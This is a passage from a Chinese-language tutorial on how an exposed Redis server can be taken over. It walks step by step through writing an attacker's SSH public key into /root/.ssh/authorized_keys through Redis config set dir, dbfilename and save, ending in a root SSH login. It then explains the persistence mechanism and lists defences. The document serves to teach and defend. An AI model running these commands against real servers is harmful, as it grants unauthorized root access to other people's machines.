 ```bash
#被黑客入侵的机器
#守护进程运⾏
daemonize yes 
#指定配置⽂件启动 
./redis-server ../redis.conf 
#开放⽹络安全组 ⼤家是不是经常这样做，测试学习使⽤


#本地（黑客的机器）ssh-keygen⽣成⼀对秘钥
ssh-keygen
#公钥（黑客的机器）⽣成攻击键值, ⽣成后查看下  
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n";) > test.txt
cat test.txt
#远程连接被入侵服务器的Redis6，配置Key到Redis中，192.168.243.129是被入侵的机器的ip，把黑客的公钥写到被入侵的Redis里面
cat test.txt | ./src/redis-cli -h 192.168.243.129 -x
set bar
#查看bar这个key的value（黑客公钥）
get bar 
#保持连接被入侵的redis，通过Redis保存机制替换系统⽂件
config set dir /root/.ssh
config get dir
config set dbfilename "authorized_keys"
save
exit
#成功的将黑客的公钥写⼊ /root/.ssh ⽂件夹的authotrized_keys
#登录被入侵主机看下效果
ssh -i id_rsa root@192.168.243.129
```

### ⼊侵阿⾥云ECS服务器提权流程原理

回顾⼊侵流程，利⽤redis的持久化操作⽂件权限，Redis Config Set 命令可以动态地调整 Redis 服务器的配置(configuration)⽽⽆须重启。 Redis Save 命令执⾏⼀个同步保存操作，将当前 Redis 实例的所有数据快照(snapshot)以 RDB ⽂件的形式保存到硬盘。 Redis⽀持RDB和AOF两种持久化机制 。RDB持久化是把当前进程数据⽣成快照保存到硬盘的过程，触发RDB持久化过程分为⼿动触发和⾃动触发。redis持久化配置，RDB⽂件保存在dir配置指定的⽬录下，⽂件名通过dbfilename配置指定，通过执⾏config set dir {newDir} 和 config set dbfilename {newFileName}运⾏期动态执⾏，当下次运⾏时RDB⽂件会保存到新⽬录。

### 如何避免云服务器被⼊侵提权

1. 禁⽌⼀些⾼危命令
2. 以低权限运⾏应⽤服务
3. 为服务添加复杂密码验证
4. 禁⽌外⽹访问，配置防⽕墙
5. 保证 authorized_keys ⽂件的安全(只读，防添加新公钥等）

## redis6可视化客户端安装

Linux服务器

- 云服务器开放网络安全组
  - redis配置下复杂密码，防止被挖矿
- 本地虚拟机记得关闭防火墙
